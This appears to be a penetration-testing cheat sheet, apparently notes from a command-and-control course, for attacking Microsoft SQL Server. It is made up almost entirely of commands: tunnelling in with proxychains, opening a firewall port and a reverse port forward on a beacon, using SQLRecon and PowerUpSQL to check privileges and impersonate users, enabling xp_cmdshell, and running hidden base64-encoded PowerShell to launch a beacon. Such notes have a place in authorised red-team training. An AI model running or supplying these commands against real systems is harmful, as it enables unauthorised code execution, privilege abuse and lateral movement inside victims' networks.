 `proxychains mssqlclient.py -windows-auth [domain]/[user]@[host]`
##### MS SQL PowerShell Payload
on beacon,
`powershell New-NetFirewallRule -DisplayName "8080-In" -Direction Inbound -Protocol TCP -Action Allow -LocalPort 8080`
`rportfwd 8080 127.0.0.1 80`

`portscan [target] 445`
host either smb_x64.ps1 (port 445 open) or tcp_x64.ps1 (port 445 closed)
[[#PowerShell Payload (base64)]]
##### Normal
Check Privileges
`execute-assembly C:\Tools\SQLRecon\SQLRecon\bin\Release\SQLRecon.exe /a:wintoken /h:[host],[port] /m:whoami`
Query
`powerpick Get-SQLQuery -Instance "[host],[port]" -Query "SELECT @@SERVERNAME"`
Command
`powerpick Invoke-SQLOSCmd -Instance "[host],[port]" -Command "whoami" -RawResults`
**Note:** auto-enables and disables xp_cmdshell
Beacon
[[#MS SQL PowerShell Payload]]
`powerpick Invoke-SQLOSCmd -Instance "[host],[port]" -Command "powershell -w hidden -enc [base64]" -RawResults`

*Raw Queries*
Query
`SELECT @@SERVERNAME`
Check xp_cmdshell
`SELECT value FROM sys.configurations WHERE name = 'xp_cmdshell';`
Enable xp_cmdshell
`sp_configure 'Show Advanced Options', 1; RECONFIGURE;`
`sp_configure 'xp_cmdshell', 1; RECONFIGURE;`
Command
`EXEC xp_cmdshell 'whoami';`
Beacon
[[#MS SQL PowerShell Payload]]
`EXEC xp_cmdshell 'powershell -w hidden -enc [base64]';`
##### Impersonate
Check Impersonation
`execute-assembly C:\Tools\SQLRecon\SQLRecon\bin\Release\SQLRecon.exe /a:wintoken /h:[host],[port] /m:impersonate`
`execute-assembly C:\Tools\SQLRecon\SQLRecon\bin\Release\SQLRecon.exe /a:wintoken /h:[host],[port] /m:iwhoami /i:[user]`
Query
`execute-assembly C:\Tools\SQLRecon\SQLRecon\bin\Release\SQLRecon.exe /a:wintoken /h:[host],[port] /m:iquery /i:[user] /c:"SELECT SYSTEM_USER;"`
Check xp_cmdshell
`execute-assembly C:\Tools\SQLRecon\SQLRecon\bin\Release\SQLRecon.exe /a:wintoken /h:[host],[port] /m:iquery /i:[user] /c:"SELECT value FROM sys.configurations WHERE name = 'xp_cmdshell';"`
Enable xp_cmdshell
`execute-assembly C:\Tools\SQLRecon\SQLRecon\bin\Release\SQLRecon.exe /a:wintoken /h:[host],[port] /m:ienablexp /i:[user]`
Command
`execute-assembly C:\Tools\SQLRecon\SQLRecon\bin\Release\SQLRecon.exe /a:wintoken /h:[host],[port] /m:ixpcmd /i:[user] /c:"whoami"`
Beacon
[[#MS SQL PowerShell Payload]]
`execute-assembly C:\Tools\SQLRecon\SQLRecon\bin\Release\SQLRecon.exe /a:wintoken /h:[host],[port] /m:ixpcmd /i:[user] /c:"powershell -w hidden -enc [base64]"`
